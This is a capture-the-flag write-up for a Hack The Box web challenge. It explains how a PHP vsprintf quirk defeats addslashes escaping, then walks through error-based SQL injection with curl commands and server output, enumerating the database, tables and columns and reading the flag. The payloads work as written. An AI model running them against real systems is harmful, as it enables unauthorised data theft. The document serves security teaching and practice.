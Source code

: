 ## [Baby SQL](https://app.hackthebox.com/challenges/146)

> *I heard that \*real_escape_string() functions protect you from malicious user input inside SQL statements, I hope you can't prove me wrong...*

The web application's index page reveals its source code. It's a PHP web application that interacts with a database.

For `POST` requests to the index page, the application will insert the `pass` parameter into a string and pass that string through [addslashes](https://www.php.net/manual/en/function.addslashes.php), escaping any backslashes, single quotes, and null bytes. The result is then passed along with the array `["admin"]` into PHP's [vsprintf](https://www.php.net/manual/en/function.vsprintf.php), which interpolates `admin` into the `%s` format specifier in the string. The result is sent to the database as a query. The web application does not return the results from the query.

```php
 <?php require 'config.php';

class db extends Connection {
    public function query($sql) {
        $args = func_get_args();
        unset($args[0]);
        return parent::query(vsprintf($sql, $args));
    }
}

$db = new db();

if (isset($_POST['pass'])) {
    $pass = addslashes($_POST['pass']);
    $db->query("SELECT * FROM users WHERE password=('$pass') AND username=('%s')", 'admin');
} else {
    die(highlight_file(__FILE__,1));
} 
```

The vulnerability lies in how PHP's `vsprintf` handles invalid format specifiers, such as `%1$\`. Since `%1$s\` is an invalid format specifier, `vsprintf` will simply remove it altogether from the string. If an attacker inputs a `pass` value of `%1$s'`, this value will be passed into `addslashes` resulting in the string `%1$s\'`. When this string is passed into `vsprintf`, it removes this invalid format specifier, leaving `'` by itself, unescaped.

Sending a `pass` of `%1$'` to the database results in a SQL syntax error, indicating the injection was successful. This also indicates the target's database is MariaDB.

```bash
$ curl -s -X POST http://178.62.72.81:32759/ -d "pass=%1$'"
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'admin')' at line 1 
```

Fix the query to remove the error message. No response body from the web application.

```bash
$ curl -s -X POST http://178.62.72.81:32759/ -d "pass=%1$')#"

```

Incremental `ORDER BY` statements indicate the `users` table has two columns. Thus a `UNION SELECT` statement must also have two columns.

```bash
$ curl -s -X POST http://178.62.72.81:32759/ -d "pass=%1$') ORDER BY 1#"

$ curl -s -X POST http://178.62.72.81:32759/ -d "pass=%1$') ORDER BY 2#"

$ curl -s -X POST http://178.62.72.81:32759/ -d "pass=%1$') ORDER BY 3#"
Unknown column '3' in 'order clause'
```

Since the web application only returns SQL error messages, abuse MariaDB/MySQL's [ExtractValue](http://www.securityidiots.com/Web-Pentest/SQL-Injection/XPATH-Error-Based-Injection-Extractvalue.html) function to return the result of arbitrary queries as an error. Retrieve the current database's name: `db_m412`.

```bash
$ curl -s -X POST http://178.62.72.81:32759/ -d "pass=%1$') UNION SELECT 1,extractvalue(0x0a,concat(0x0a,(SELECT database())))#"
XPATH syntax error: '
db_m412'
```

`db_m412` has two tables: `totally_not_a_flag` and `users`.

```bash
$ curl -s -X POST http://178.62.72.81:32759/ -d "pass=%1$') UNION SELECT 1,extractvalue(0x0a,concat(0x0a,(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema = database())))#"
XPATH syntax error: '
totally_not_a_flag,users'
```

`db_m412.totally_not_a_flag` has one column: `flag`.

```bash
$ curl -s -X POST http://178.62.72.81:32759/ -d "pass=%1$') UNION SELECT 1,ExtractValue(0x41, CONCAT(0x0a, (SELECT column_name FROM information_schema.columns WHERE table_name = %1$'totally_not_a_flag%1$')))#"
XPATH syntax error: '
flag'
```

There is only one entry in the table.

```bash
$ curl -s -X POST http://178.62.72.81:32759/ -d "pass=%1$') UNION SELECT 1,ExtractValue(0x41, CONCAT(0x0a, (SELECT COUNT(flag) FROM db_m412.totally_not_a_flag)))#"
XPATH syntax error: '
1'
```

Read that entry's `flag` value for the challenge's flag.

```bash
$ curl -s -X POST http://178.62.72.81:32759/ -d "pass=%1$') UNION SELECT 1,extractvalue(0x0a,concat(0x0a,(SELECT  from db_m412.totally_not_a_flag)))#"
XPATH syntax error: '
HTB{...}'
```
